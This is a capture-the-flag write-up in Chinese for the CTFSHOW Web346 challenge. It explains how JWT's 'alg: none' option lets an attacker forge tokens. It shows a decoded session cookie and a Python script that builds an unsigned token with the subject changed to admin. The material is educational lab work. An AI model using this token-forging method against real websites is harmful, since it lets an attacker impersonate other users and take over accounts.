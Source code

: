 # CTFSHOW Web346

## 前言

JWT支持将算法设定为“None”。如果“alg”字段设为“ None”，那么签名会被置空，这样任何token都是有效的。
设定该功能的最初目的是为了方便调试。但是，若不在生产环境中关闭该功能，攻击者可以通过将alg字段设置为“None”来伪造他们想要的任何token，接着便可以使用伪造的token冒充任意用户登陆网站。

## 开始做题

首先拿到cookie

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYwOTIzNjg3MCwiZXhwIjoxNjA5MjQ0MDcwLCJuYmYiOjE2MDkyMzY4NzAsInN1YiI6InVzZXIiLCJqdGkiOiI5NDNkMGIzMjM3ODA2NjU5ZDJlMjA1ZTQyYjMxOTQ5NCJ9.9TUQLyYKs97ceFhZQ4BzkAuug6nCgLoMAbLH88kSOwo
```

解码

```
{
  "alg": "HS256",
  "typ": "JWT"
}
{
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "user",
  "jti": "943d0b3237806659d2e205e42b319494"
}
```

我们需要把sub字段改为admin

但是如果把签名算法改为none的化jwt.io那个网站就无法生成，这个时候可以使用python生成

```python
import jwt

# payload
token_dict = {
  "iss": "admin",
  "iat": 1609236870,
  "exp": 1609244070,
  "nbf": 1609236870,
  "sub": "admin",
  "jti": "943d0b3237806659d2e205e42b319494"
}

headers = {
  "alg": "none",
  "typ": "JWT"
}
jwt_token = jwt.encode(token_dict,  # payload, 有效载体
                       "",  # 进行加密签名的密钥
                       algorithm="none",  # 指明签名算法方式, 默认也是HS256
                       headers=headers 
                       # json web token 数据结构包含两部分, payload(有效载体), headers(标头)
                       )

print(jwt_token)
```

将生成的字符串来替换原有的cookie获得flag